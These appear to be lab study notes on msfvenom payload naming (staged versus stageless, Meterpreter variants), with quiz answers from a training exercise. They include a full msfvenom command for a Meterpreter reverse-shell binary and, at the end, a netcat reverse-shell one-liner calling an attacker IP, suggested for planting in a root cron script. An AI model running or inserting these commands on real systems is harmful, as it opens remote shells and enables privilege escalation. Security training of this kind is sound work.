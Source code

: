     linux/x86/shell_reverse_tcp

This would generate a stageless reverse shell for an x86 Linux target.

The exception to this convention is Windows `32bit` targets. For these, the arch is not specified. e.g.:

    windows/shell_reverse_tcp


For a 64bit Windows target, the arch would be specified as normal (`x64`).

Let's break the payload section down a little further.

In the above examples the payload used was `shell_reverse_tcp`. This indicates that it was a stageless payload. How? Stageless payloads are denoted with underscores (`_`). The staged equivalent to this payload would be:

    shell/reverse_tcp

As staged payloads are denoted with another forward slash (`/`).

This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:

    windows/x64/meterpreter/reverse_tcp

A Linux 32bit stageless Meterpreter payload would look like this:

    linux/x86/meterpreter_reverse_tcp

Aside from the `msfconsole` man page, the other important thing to note when working with `msfvenom` is:

    msfvenom --list payloads

This can be used to list all available payloads, which can then be piped into grep to search for a specific set of payloads. For example:

![alt text](images/msfvenom_02.png "Screenshot")

This gives us a full set of Linux `meterpreter` payloads for 32bit targets.

Which symbol is used to show that a shell is stageless?

    _

What command would you use to generate a staged `meterpreter` reverse shell for a 64bit Linux target, assuming your own IP was `10.10.10.5`, and you were listening on port `443`? The format for the shell is `elf` and the output filename should be `shell`

```commandline
msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORt=443
```

#### Additional notes

Creating a reverse shell with the `netcat` payload which will output a line ready to copy and paste for example in script on the target machine. This can be very handy if for example a cron job is run as root user where the user has write permissions to the conenct of that script:

````commandline
┌──(itchy㉿scratchy)-[~/tools]
└─$ msfvenom -p cmd/unix/reverse_netcat lhost=10.8.208.30 lport=8888 revshell

[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 89 bytes
mkfifo /tmp/kdje; nc 10.8.208.30 8888 0</tmp/kdje | /bin/sh >/tmp/kdje 2>&1; rm /tmp/kdje
````
